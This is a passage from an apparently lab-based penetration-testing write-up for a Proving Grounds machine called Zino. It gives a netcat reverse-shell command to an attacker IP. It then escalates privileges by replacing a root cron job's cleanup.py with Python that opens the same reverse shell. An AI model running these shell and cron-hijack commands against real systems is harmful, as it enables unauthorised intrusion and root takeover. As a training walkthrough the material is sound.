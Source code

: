 We can use that to get our reverse shell. Use the following command to launch our reverse shell:

```bash
nc 192.168.49.200 8003 -e /bin/bash
```

Checking on our listener we see the connection come through

![Reverse Shell](/assets/ProvingGrounds/Zino/reverse-shell.png "Reverse Shell")

# Privilege Escalation

Linpeas has identified a potential priv esc in a cron job running in /var/www/html/booked

![Vulnerable Cron](/assets/ProvingGrounds/Zino/vuln-cron.png "Vulnerable Cron")

We can modify the content of the file to be the following:

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('nc -e /bin/bash 192.168.49.200 8003')
except:
        print 'ERROR...'
sys.exit(0)
```

and copy it to  /var/www/html/booked/cleanup.py and setup our listener. After a while we see a connection and we confirm we are running as root

![Privilege Escalation](/assets/ProvingGrounds/Zino/priv-esc.png "Privilege Escalation")

